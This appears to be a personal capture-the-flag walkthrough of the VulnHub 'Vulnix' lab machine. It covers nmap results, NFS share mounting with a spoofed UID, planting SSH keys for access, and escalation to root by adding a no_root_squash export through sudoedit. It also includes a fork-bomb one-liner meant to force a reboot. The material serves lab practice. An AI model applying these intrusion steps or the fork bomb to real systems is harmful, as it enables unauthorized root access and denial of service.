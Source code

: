 --------------------------------
# Author Shubham Ranpise
--------------------------------

# 17/december/2022

# Vulnix

----------------------------------------------------------------
# nmap scan (smtp running on 25)
----------------------------------------------------------------
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
25/tcp   open  smtp       Postfix smtpd
79/tcp   open  finger     Linux fingerd
110/tcp  open  pop3?
111/tcp  open  rpcbind    2-4 (RPC #100000)
143/tcp  open  imap       Dovecot imapd
512/tcp  open  exec?
513/tcp  open  login
514/tcp  open  tcpwrapped
993/tcp  open  ssl/imap   Dovecot imapd
995/tcp  open  ssl/pop3s?
2049/tcp open  nfs_acl    2-3 (RPC #100227)

----------------------------------------------------------------
got shares listed and connected to local machine
----------------------------------------------------------------
-> showmount -e 10.0.2.13
Export list for 10.0.2.13:
/home/vulnix *
sudo mount 10.0.2.13:/home/vulnix /home/kali/Desktop/gitlab/vulnhub/VULNIX/mntt -o vers=3
make new user as vulnix with 2008 id because mounted directory have 2008 id
-> su vulnix
you can acces the mounted directory

make ssh keys and put pub key in mounted share /.ssh/authorized_keys
-> ssh-keygen -t ssh-rsa
access via ssh
-> ssh -o 'PubkeyAcceptedKeyTypes +ssh-rsa' -i id_rsa vulnix@10.0.2.13

you got shell

----------------------------------------------------------------
privilege escalation
----------------------------------------------------------------
-> sudo -l
we can run sudoedit /etc/export
without root password with root previleges
so add this line in that file
-> /root   *(rw,no_root_squash)
we need to reboot the machine in real life 
this will spawn unlimited ps and force the machine to reboot
->   :(){:|:&};:
in our setuation we can simply reboot the vm :)
chek the shares are visible or not
-> showmount -e 10.0.2.13
Export list for 10.0.2.13:
/root        *
/home/vulnix *
mount the root share
-> sudo mount 10.0.2.13:/root /home/kali/Desktop/gitlab/vulnhub/VULNIX/mntroot -o vers=3
-> sudo ls -la mntroot 
-> sudo cat mntroot/trophy.txt
cc614640424f5bd60ce5d5264899c3be
 we got flag but we didnt got shell
am i only upset here?
so do the same thing as we did with vulnix user
we got root shell with ssh
happy hacking